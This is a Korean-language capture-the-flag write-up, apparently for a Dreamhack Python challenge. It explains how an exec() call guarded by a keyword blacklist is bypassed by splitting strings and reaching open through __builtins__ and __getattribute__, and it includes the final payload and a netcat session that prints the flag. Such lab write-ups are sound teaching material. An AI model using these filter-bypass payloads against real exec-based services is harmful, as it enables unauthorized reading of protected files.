 도커 파일을 보자.

``` Dockerfile
CMD ["socat", "TCP-LISTEN:5000,reuseaddr,fork", "EXEC:python3 chall.py,nofork,stderr"]
# socat을 실행하여 5000번 포트에서 TCP 연결을 받아올 때마다 python3 chall.py 실행
# 연결이 들어올 때마다(=fork) 새로운 python3 chall.py 프로세스가 실행됨
# 표준에러(stderr) 연결, nofork 옵션으로 exec 명령을 하나만 실행하도록 제한, 쉽게 말하면, 각 소켓 연결마다 프로세스가 하나씩 실행되고, 그 프로세스는 다시 fork하지 않는다는 의미.
```

결론은, 접속하면 chall.py 프로그램이 실행된다는 것.
그리고 정답은 /chall/flag.txt에 있다는 것.

이제 chall.py 파일을 보자.
블라~블라~ 말이 많지만, 목적은 아래 코드를 실행시키는 것이다.

``` python
exec(code) # (*) Search what does 'exec' means!
```

exec는 파이선 내장함수로, 파라미터로 받은 코드의 내용이 파이선으로 실행된다.
code = "print('this is print code')"
라고 하고, exec(code) 하면 print('this is print code') 코드가 파이선으로 실행되는 것이다.

자, 이제 결론은?
/chall/flag.txt에 있는 내용을 화면에 출력하는 파이선 코드를 짜서 입력하면 된다.
단순하게 아래와 같이 짜면 되겠지만...

``` python
print(open('/chall/flag.txt').read())
```

금지 단어가 있는 것이 문제다. 금지 단어에 open, flag, read 등등이 들어가 있기 때문
이런 단어를 우회해서 파이선 코드를 실행시켜야 한다.

파이선은 모든 것이 "객체"로 되어 있다. 함수들도 모두 "객체"다.
객체들은 각자가 이름을 가지고 있고, 따라서 이름-객체 가 key-value 딕셔너리 형태로 되어 있다.
네임스페이스는 이런 key-value의 집합. 즉, 딕셔너리라고 보면 된다.

open()이라는 함수도 이런 딕셔너리 안에 들어있고, 그 딕셔너리가 바로 __builtins__ 딕셔너리다.
따라서 open()함수는 다음과 같이 호출할 수 있다.

``` python
getattr(__builtins__, "__dict__")["open"]
```

그러나 여전히 금지어 open에 걸리지 않는가?
따라서 "open"을 적당히 찢어주자. 

``` python
getattr(__builtins__, "__dict__")["op" + "en"]
```

자, 이제 파일 경로도 마찬가지로 금지어에 걸리지 않게 적당히 찢어주자.


``` python
getattr(__builtins__, "__dict__")["op"+"en"]("/chall/"+"fl"+"ag.txt")
```

open한 것은 읽어야한다. open의 결과도 객체다. 객체의 속성에 read가 있다.
객체의 속성도 역시 딕셔너리일텐데, 속성을 이름으로 가져올 수 있는 __getattribute__ 함수를 제공한다.
__getattribute__ 함수를 사용해 read를 찢어서 "re"+"ad"로 가져온다.

``` python
getattr(__builtins__, "__dict__")["op"+"en"]("/chall/"+"fl"+"ag.txt").__getattribute__("re"+"ad")()
```

자, 이제 print로 출력만 하면 된다.

``` python
print(getattr(__builtins__, "__dict__")["op"+"en"]("/chall/"+"fl"+"ag.txt").__getattribute__("re"+"ad")())
```

짠! 정답

```shell
chorockuin@PN-00055213-01:/mnt/c/Users/Administrator$ nc host3.dreamhack.games 23557
Welcome to Python Challenge! Input your code and capture the flag!
Input code > print(getattr(__builtins__, "__dict__")["op"+"en"]("/chall/"+"fl"+"ag.txt").__getattribute__("re"+"ad")())
DH{Welc0m3_To_Python_Ch4l1enge!}
```
